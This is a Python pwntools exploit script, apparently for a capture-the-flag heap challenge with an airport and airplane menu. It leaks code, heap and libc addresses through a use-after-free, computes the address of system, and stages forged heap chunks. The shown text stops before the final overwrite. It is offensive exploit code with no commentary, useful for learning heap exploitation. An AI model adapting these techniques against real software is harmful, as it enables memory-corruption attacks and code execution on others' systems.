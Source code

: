 ```python
list_airport = 1
sell_airport = 2

fly_airplane = 1
sell_airplane = 2

for i in range(5):
    buy(1, str(i))

build(20, "a"*0x10)
build(20, "b"*0x10)

enter(0, sell_airport)
enter(1, sell_airport)

select('0', fly_airplane, 1, is_exit = False)
p.recvuntil('0 to ')
code_base = u64(p.recvn(6) + '\x00\x00') - 0xb7d
print("code_base is " + hex(code_base))

p.recvuntil('choice:')
p.sendline('3')

build(0x80, p64(code_base + 0x202080))
select('1', fly_airplane, 1, is_exit = False)

p.recvuntil('1 to ')
heap_base = u64(p.recvn(6) + '\x00\x00') - 0x1a0
print("heap_base is " + hex(heap_base))

p.recvuntil('choice:')
p.sendline('3')

build(20, "a"*0x10)
build(20, "b"*0x10)
enter(3, sell_airport)
enter(4, sell_airport)

payload = p64(code_base + 0x201f70)
payload += p64(heap_base + 0x10)
payload += p64(heap_base + 0x60)
payload += p64(heap_base + 0x10)
payload = payload.ljust(0x88, '\x00')

build(0x88, payload) 
select('2', fly_airplane, 4, is_exit = False)

p.recvuntil('2 to ')
free_addr = u64(p.recvn(6) + '\x00\x00') 
print("free_addr is " + hex(free_addr))

system_addr = free_addr - libc.symbols['free'] + libc.symbols['system']
print("system addr is " + hex(system_addr))

p.recvuntil('choice:')
p.sendline('3')

build(0x60, '')
enter(4, sell_airport)

build(0x40, 'aaaaaaaaaa')
build(0x40, p64(heap_base + 0xf0))
build(0x40, 'aaaaaaaaaa')
```
